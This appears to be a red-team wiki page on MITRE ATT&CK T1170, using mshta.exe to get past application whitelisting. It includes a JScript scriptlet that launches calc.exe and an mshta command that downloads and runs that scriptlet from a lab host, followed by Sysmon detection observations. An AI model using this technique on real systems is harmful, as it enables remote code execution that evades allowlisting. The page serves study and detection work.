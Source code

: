 ```yaml
---
description: Application whitelist bypass technique
---
```


# T1170: MSHTA Code Execution

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1170\",\"type\":\"link\",\"title\":\"Mshta - ATT&CK for Enterprise\"}" %}

## Code

{% code-tabs %}
{% code-tabs-item title="http://10.0.0.5/m.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

```bash
# from powershell
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```

## Observations

As expected, calc is spawned by mshta. Also, mhsta and cmd exit almost immediately after invoking the calc.exe.

![](../.gitbook/assets/mshta-calc.png)

Look at sysmon for mshta establishing network connections:

![](../.gitbook/assets/mshta-connection.png)

Also, suspicious commandlines:

![](../.gitbook/assets/mshta-commandline.png)



